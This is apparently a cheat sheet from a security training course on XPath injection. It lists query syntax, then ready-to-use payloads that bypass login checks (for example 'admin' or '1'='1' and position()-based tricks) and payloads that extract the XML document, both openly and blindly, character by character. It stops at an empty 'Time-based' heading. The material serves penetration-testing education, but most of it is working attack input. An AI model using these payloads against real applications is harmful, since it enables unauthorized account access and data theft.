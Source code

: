 Wildcards:

| Query | Explanation |
| --- | --- |
| `node()` | Matches any node |
| `*` | Matches any `element` node |
| `@*` | Matches any `attribute` node |

Union:

| Query | Explanation |
| --- | --- |
| `//module[tier=2]/title/text() \| //module[tier=3]/title/text()` | Select the title of all modules in tiers `2` and `3` |

#### Authentication Bypass

| Description | Username | Query |
| --- | --- | --- |
| Regular Authentication | `htb-stdnt` | `/users/user[username/text()='htb-stdnt' and password/text()='295362c2618a05ba3899904a6a3f5bc0']` |
| Bypass Authentication with known username | `admin' or '1'='1` | `/users/user[username/text()='admin' or '1'='1' and password/text()='21232f297a57a5a743894a0e4a801fc3']` |
| Bypass Authentication by position | `' or position()=1 or '` | `/users/user[username/text()='' or position()=1 or '' and password/text()='21232f297a57a5a743894a0e4a801fc3']` |
| Bypass Authentication by substring | `' or contains(.,'admin') or '` | `/users/user[username/text()='' or contains(.,'admin') or '' and password/text()='21232f297a57a5a743894a0e4a801fc3']` |

#### Data Exfiltration

Unrestricted:

- Leak entire XML document via union injection: `| //text()`

Restricted:

- Determine schema depth via chain of wildcards `/*[1]`
- iterate through XML schema by increasing the indices to exfiltrate the entire document step-by-step

#### Blind Data Exfiltration

| Description | Payload | Query |
| --- | --- | --- |
| Exfiltrating Node Name's Length | `invalid' or string-length(name(/*[1]))=1 and '1'='1` | `/users/user[username='invalid' or string-length(name(/*[1]))=1 and '1'='1']` |
| Exfiltrating Node Name | `invalid' or substring(name(/*[1]),1,1)='a' and '1'='1` | `/users/user[username='invalid' or substring(name(/*[1]),1,1)='a' and '1'='1']` |
| Exfiltrating Number of Child Nodes | `invalid' or count(/*[1]/*)=1 and '1'='1` | `/users/user[username='invalid' or count(/*[1]/*)=1 and '1'='1']` |
| Exfiltrating Value Length | `invalid' or string-length(/users/user[1]/username)=1 and '1'='1` | `/users/user[username='invalid' or string-length(/users/user[1]/username)=1 and '1'='1']` |
| Exfiltrating Value | `invalid' or substring(/users/user[1]/username,1,1)='a' and '1'='1` | `/users/user[username='invalid' or substring(/users/user[1]/username,1,1)='a' and '1'='1']` |

#### Time-based
